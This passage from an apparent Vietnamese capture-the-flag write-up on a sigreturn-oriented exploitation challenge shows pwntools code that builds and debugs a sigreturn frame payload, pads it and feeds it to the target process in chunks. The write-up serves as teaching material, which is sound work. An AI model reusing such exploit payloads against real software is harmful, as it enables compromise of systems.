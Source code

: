 Ta thấy nó không giống với frame mà ta tạo. Vậy thêm đoạn code này vào trước đoạn code bên trên để in ra frame và so sánh với frame được nhập vào:

```python
for i in range(0, len(frame), 0x10):
    try:
        print(hex(u64(bytes(frame)[i:i+8])), hex(u64(bytes(frame)[i+8:i+0x10])))
    except:
        print(bytes(frame)[i:i+8], bytes(frame)[i+8:i+0x10])

sigreturn = 0x00000000004010ce
payload = flat(
    bytes(frame),
    sigreturn,
    )
payload = payload.rjust(8*8189, b'P')

for i in range(0, len(payload), 8):
	print(i/8, end='\r')
    p.sendafter(b'complete', payload[i:i+8])
input(str(p.pid))
p.sendafter(b'complete', b'quitquit')
```

Chạy lại thôi nào. Đây là dump của frame:

![frame-dump.png](images/frame-dump.png)

Còn đây là stack sau khi input:
